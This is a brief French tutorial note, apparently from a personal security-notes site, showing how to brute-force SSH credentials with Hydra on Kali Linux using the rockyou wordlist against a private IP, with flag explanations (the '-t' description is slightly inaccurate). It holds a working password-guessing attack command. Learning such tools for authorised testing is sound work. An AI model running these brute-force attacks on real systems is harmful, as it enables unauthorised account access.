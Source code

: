 ```yaml
---
{"dg-publish":true,"permalink":"/kali/brute-force-hydra/"}
---
```


Pour commencer il faut se retrouver sur notre machine kali linux ou tout autres machine contenant le paquet hydra (pour moi ce sera une kali):

```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo -s
┌──(root㉿DESKTOPEnzo)-[root]
└─$ hydra -l sysadmin -P /home/kali/rockyou.txt -t 6 ssh://10.54.0.100:22
```
- `<-l sysadmin>`  déclare le username que l'on veut avoir ici c'est donc `<sysadmin>`
- `<-P /home/kali/rockyou.txt>` déclare le chemin du fichier de notre banque de mot de passe
- `<-t 6>` précise le nombre de coeur logique actif pour cette tâche 
- `<ssh://10.54.0.100:22>` sert à déclarer le protocole donc `<ssh>` ici ainsi que l'IP et le port.